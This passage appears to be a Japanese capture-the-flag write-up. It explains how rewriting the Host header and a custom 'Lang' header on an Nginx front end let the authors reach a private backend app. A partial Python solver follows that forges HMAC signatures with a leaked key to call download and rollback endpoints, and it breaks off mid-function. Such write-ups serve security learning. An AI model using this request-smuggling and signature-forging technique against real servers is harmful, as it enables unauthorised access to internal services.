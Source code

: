 次に、このNginxの設定に起因する脆弱性を利用して、バックエンド側のアプリに直接アクセスできることがわかった。
具体的に言うと、任意のHTTPリクエスト(GETリクエスト[^4])を発行できた。

リクエストをフォワードする先のURLは、下記のように、ある程度自由に指定できた。

- スキーム: 未確認(今回は`http`が使えれば十分)
- ホスト(ポートを含む): 脆弱なエンドポイントで発生する正規のリクエストで、ヘッダ`Host`の値を書き換えることで任意の値を指定できた。
- パス+クエリ文字列: 脆弱なエンドポイントで発生する正規のリクエストで、`Lang`の値を書き換えることで、任意の値を指定できた。[^5]

あとは、バックエンドのアプリの仕様を整理して、パズルをした。
詳細は、後述のSolverを参照されたい。

<details><summary>
    バックエンドのアプリの仕様に関するメモ
</summary></details>

### Solver

```py
import hashlib
import hmac
import json
from urllib.parse import urljoin

import requests

PUBLIC_BASE_URL = 'http://35.190.234.195/'
PRIVATE_HOST = 'localhost:5000'

PRIVATE_KEY = b"let'sbitcorinparty"


def get_db_hash() -> str:
    res = requests.get(urljoin(PUBLIC_BASE_URL, '/'),
                       headers={
                           'Host': PRIVATE_HOST,
                           'Lang': 'integrityStatus'
                       })
    return json.loads(res.headers['lang'])['dbhash']


def generate_sign(s: str) -> str:
    return hmac.new(PRIVATE_KEY, s.encode(), hashlib.sha512).hexdigest()


def generate_key(s: str) -> str:
    return hashlib.sha512(s.encode('ascii')).hexdigest()


def add_prefix(s: str, prefix: str) -> str:
    return f'{prefix}{s}'


def execute_download(srcUrl: str) -> requests.Response:
    sign = generate_sign(f'src={srcUrl}')
    return requests.get(urljoin(PUBLIC_BASE_URL, '/'),
                        headers={
                            'Host': PRIVATE_HOST,
                            'Lang': f'download?src={srcUrl}',
                            'Sign': sign
                        })


def execute_rollback(dbHash: str) -> requests.Response:
    FRAGMENT = '_'

```

[^1]: こちらは、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏と解きました。
[^2]: ひとまず簡単なWriteup出しておいて、復習するタイミングで詳細な解説を付けるやり方は、割とありな気がしている。
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: GETリクエストがあればflagを入手するには十分だったため、他のメソッドのリクエストが発行できるかは調査しなかった。
[^5]: フォワードされた後、`app.main.LanguageNomarize(request)`を用いて、正規化される場合がある。
[^6]: `%`は0文字以上の文字列を表すワイルドカード
[^7]: 実際には、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏による手動リークの方が速かったが、プライバシーの観点から、彼の顔写真の代わりにPythonによるSolverスクリプトを掲載した。